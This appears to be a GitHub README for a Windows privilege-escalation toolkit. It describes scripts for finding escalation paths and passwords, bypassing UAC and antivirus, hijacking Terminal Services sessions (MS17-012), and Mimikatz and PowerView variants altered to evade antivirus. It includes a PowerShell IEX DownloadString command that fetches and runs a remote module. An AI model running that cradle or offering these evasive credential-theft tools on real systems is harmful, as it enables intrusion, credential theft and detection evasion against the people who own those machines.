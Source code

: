 # WinEscalation-

Scan.ps1:
Powershell script used to determine what methods can be used to escalate privileges and find passwords (admin and non-admin privs).


AVbypass.txt:
List of URLs discussing different methods of bypassing AV.

TScommands.txt:
Commands on how to hijack a TS session on a box (must have admin rights).

UACbypass.txt:
URLs discussing different methods of bypassing UAC.


MS17-012/CVE-2017-0100:
Start-ProcessInSession.ps1 & MS17-012.cs - non-priveleged session hijack



Author: Scott Sutherland 2013, NetSPI
Version: Get-SPN version 1.1
Requirements: Powershell v.3
Comments: The technique used to query LDAP was based on the "Get-AuditDSDisabledUserAcount" 
function found in Carols Perez's PoshSec-Mod project.#
Modded to bypass AV sig detection.
https://github.com/nullbind/Powershellery/blob/master/Stable-ish/Get-SPN/Get-SPN.psm1

Get-SPM.psm1: 

IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pand0rausa/WinEscalation-/master/Get-SPM.psm1")

Mimikitten mod to avoid AV:
mimikitt.ps1


Mimikatz mod to avoid AV:
mimi.ps1

Powerview mod to avoid AV:
powervw.ps1
